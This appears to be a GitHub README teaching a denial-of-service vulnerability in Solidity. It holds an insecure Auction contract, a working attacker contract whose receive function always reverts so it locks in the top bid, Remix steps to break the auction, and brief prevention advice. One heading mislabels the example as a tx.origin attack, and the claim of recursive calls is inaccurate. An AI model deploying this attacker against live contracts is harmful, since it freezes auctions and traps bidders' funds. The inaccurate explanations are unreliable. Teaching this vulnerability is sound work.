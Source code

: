 # What is DOS Attack?
 DoS is short for Denial of Service. Any interference with a Service that reduces or loses its availability is called a Denial of Service. Simply put, normal service requests that a user needs cannot be processed by the system. For example, when a computer system crashes or its bandwidth is exhausted or its hard disk is filled up so that it cannot provide normal service, it constitutes a DoS. In this implementaiton we have a contract called auciton which is vulnerable to DoS attack. 

```solidity 
 // SPDX-License-Identifier: MIT
pragma solidity 0.8.17;
// Denial of service attack, an attack can make fail line 13 by a fallback function that always fails and thus achieve "Denial of service"
// to keep his bidding position

// INSECURE
contract Auction {
    address payable public currentLeader;
    uint public highestBid;

    function bid() payable external {
        require(msg.value > highestBid);

        require(currentLeader.send(highestBid)); // Refund the old leader, if it fails then revert

        currentLeader = payable(msg.sender);
        highestBid = msg.value;
    }
}


``` 


And there is a attacker contact which  actually takes the smart contract address as the highest bidder and recursively call the function. 

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface Iauction{
        function bid() payable external;
}

contract attackt004{
         address public owner;
         Iauction public immutable auc;

        constructor (address  addr){
            auc = Iauction(addr);
            owner = msg.sender;
         }

        function attack() external payable {
            auc.bid{value: msg.value}();
        }

        receive() external payable {
                      revert();
        }                     
}

```

# How does it happen?
In Solidity, a DoS vulnerability can be simply understood as “unrecoverable malicious manipulation or uncontrolled unlimited resource consumption”, i.e. a DoS attack on an Ethereum contract that could result in massive consumption of Ether and Gas and, worse, render the original contract code logic unworkable.


 

# Example of Tx Origin Attack.
 For example, there are three checkout points in the supermarket. Normally, people queue up to pay by scanning the code at the checkout point. However, one day, there was an Internet problem, and all the customers at the checkout point failed to scan the code and pay. Or, when paying, customers deliberately make trouble, so that the following customers can not pay, which will also lead to the supermarket can not operate. We can see that there are internal ones, that can cause the DoS attacks

# How to prevent?
 For external operation mapping or array loop, need to limit the length; For the owner operation, the non-uniqueness of the contract should be considered, and the whole business should not be paralyzed because of a certain permission account. Based on the external call progress state need to except the handling of function calls, without any harm in general internal function calls, if the call is a failure will be back, and the external call is uncertain, we don’t know what the external caller wants to do if being attacked by the attacker, it may cause serious consequences.

# How to use our code: 
 - First you need to deploy the auction contract code in remix ide. 
 - Perform some biddign  and each time highest bidder will be changed.
 - Deploy the attack code putting the auction contact address as a parameter.
 - Then perform the bid using the attack  funciton from the attack file. Then the auction contract will be broken.  
